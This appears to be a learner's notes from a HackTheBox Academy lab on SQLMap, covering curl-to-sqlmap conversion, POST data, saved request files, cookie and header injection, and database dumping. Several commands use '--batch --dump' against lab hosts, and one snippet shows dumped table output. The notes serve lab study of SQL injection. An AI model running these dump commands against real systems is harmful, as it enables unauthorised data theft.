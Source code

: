 SQLMap has numerous options and switches that can be used to properly set up the (HTTP) request before its usage.

In many cases, simple mistakes such as forgetting to provide proper cookie values, over-complicating setup with a lengthy command line, or improper declaration of formatted POST data, will prevent the correct detection and exploitation of the potential SQLi vulnerability

---
## Curl Commands
`Copy as cURL`

![[8t1151o3.png]]

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:
```bash
AhmaDb0x@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```
When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`)


## GET/POST Requests
`GET` parameters are provided with the usage of option `-u`/`--url`, as in the previous example. As for testing `POST` data, the `--data` flag can be used

`POST` parameters `uid` and `name` will be tested for SQLi vulnerability.:
```bash
AhmaDb0x@htb[/htb]$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```
parameter `uid` is prone to an SQLi vulnerability:
```bash
AhmaDb0x@htb[/htb]$ sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

---


## Full HTTP Requests

![HTTP GET request to www.example.com with headers including User-Agent and Accept-Language.](https://academy.hackthebox.com/storage/modules/58/x7ND6VQ.png)


capture request from burp or inspect make it in .txt > use -r in `sqlmap`
```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

```bash
AhmaDb0x@htb[/htb]$ sqlmap -r req.txt
```
>Tip: similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=*'.



## Custom SQLMap Requests
```bash
AhmaDb0x@htb[/htb]$ sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
`-H` for raw headers
```bash
AhmaDb0x@htb[/htb]$ sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

```bash
sqlmap -u "http://94.237.58.78:43299/index.php?id=1" --cookie="PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"

```
POST form:
```bash
sqlmap -u "http://94.237.58.78:43299/login.php" --data="username=admin&password=admin" --cookie="PHPSESSID=..." 
```

>sqlmap -r request.txt

This is the best way to use sqlmap on real-world apps.

---
```shell-session
AhmaDb0x@htb[/htb]$ sqlmap -u www.target.com --data='id=1' --method PUT
```
```shell-session
--method PUT
```


###### Use options "--batch --dump" to automatically dump all data.

###### Try to see where the 'id=1' is sent, and specify this location as the injection mark.

###### When dealing with complex HTTP requests, it's best to use sqlmap with the '-r' option.


sqlmap -u "http://94.237.51.14:49563/case2.php?id=1" --batch --dump

sqlmap -u "http://94.237.51.14:49563/case2.php?id=1" --cookie="PHPSESSID=your-session-id" --batch --dump


POST parameter id

```bash
sqlmap -u "http://94.237.51.14:49563/case2.php" --data="id=1" --batch --dump

```

```bash
sqlmap -u "http://94.237.51.14:49563/case2.php" \
--data="id=1" \
--cookie="PHPSESSID=your-session-id" \
--batch --dump

```

19:49:19] [INFO] table 'testdb.users' dumped to CSV file '/home/pwn/.local/share/sqlmap/output/94.237.51.14/dump/testdb/users.csv'                                                                                                                 
[19:49:19] [INFO] fetched data logged to text files under '/home/pwn/.local/share/sqlmap/output/94.237.51.14'


vulnerability in Cookie value id=1

```bash
sqlmap -u "http://94.237.51.14:49563/case3.php" \
--cookie="id=*" \
--batch --dump

```


```bash
┌──(pwn㉿kali)-[~]
└─$ sqlmap -r req.txt --threads 10 --dump -T flag4 --batch
```


1. Be on the list of cases and have requests intercepted ready.
2. Click “Forward” until you catch the expected request
3. Copy the request to a file
4. sqlmap -r case4.txt --batch --dump

sqlmap -u [http://IP](http://IP):PORT/case4.php/ --data=‘{“id”:1}’ --batch --dump

